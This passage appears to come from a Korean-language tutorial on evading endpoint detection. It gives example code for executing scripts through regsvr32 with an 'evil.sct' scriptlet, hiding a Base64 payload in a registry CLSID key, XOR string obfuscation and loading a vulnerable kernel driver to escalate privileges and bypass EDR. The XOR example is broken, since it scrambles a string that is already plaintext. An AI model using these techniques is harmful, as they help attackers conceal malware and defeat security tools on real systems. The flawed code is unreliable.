 ```
# regsvr32를 사용한 코드 실행 예시
regsvr32.exe /s /u /i:evil.sct scrobj.dll
```

주요 LOLBins:
- regsvr32.exe
- mshta.exe
- certutil.exe
- bitsadmin.exe
- msiexec.exe

#### 레지스트리 기반 페이로드

악성 코드를 Windows 레지스트리에 저장하고 메모리에서 실행합니다.

```powershell
# 레지스트리에 페이로드 저장 예시
$payload = "Base64 인코딩된 페이로드"
Set-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{00000000-0000-0000-0000-000000000000}" -Name "Payload" -Value $payload
```

### 4. 실행 흐름 난독화

#### 제어 흐름 평탄화(Control Flow Flattening)

코드의 논리적 흐름을 복잡하게 만들어 분석을 어렵게 합니다.

1. 코드를 작은 블록으로 분할
2. 중앙 디스패처를 통해 블록 실행 순서 제어
3. 실제 실행 흐름 숨기기

#### 문자열 난독화

문자열을 실행 시간에 동적으로 구성하여 정적 분석 탐지를 회피합니다.

```c
// 문자열 난독화 예시
char str[] = {0x43, 0x72, 0x65, 0x61, 0x74, 0x65, 0x50, 0x72, 0x6f, 0x63, 0x65, 0x73, 0x73, 0x00};
for (int i = 0; i < sizeof(str) - 1; i++) {
    str[i] = str[i] ^ 0x11;  // XOR 연산으로 복호화
}
```

### 5. 커널 레벨 공격

#### 드라이버 악용

취약한 합법적 드라이버를 사용하여 권한을 상승시키고 EDR을 우회합니다.

```c
// 드라이버 로드 예시
SC_HANDLE hSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
SC_HANDLE hService = CreateService(hSCManager, "VulnDriver", "Vulnerable Driver", SERVICE_ALL_ACCESS, SERVICE_KERNEL_DRIVER, SERVICE_DEMAND_START, SERVICE_ERROR_NORMAL, "C:\\Path\\To\\Driver.sys", NULL, NULL, NULL, NULL, NULL);
StartService(hService, 0, NULL);
```

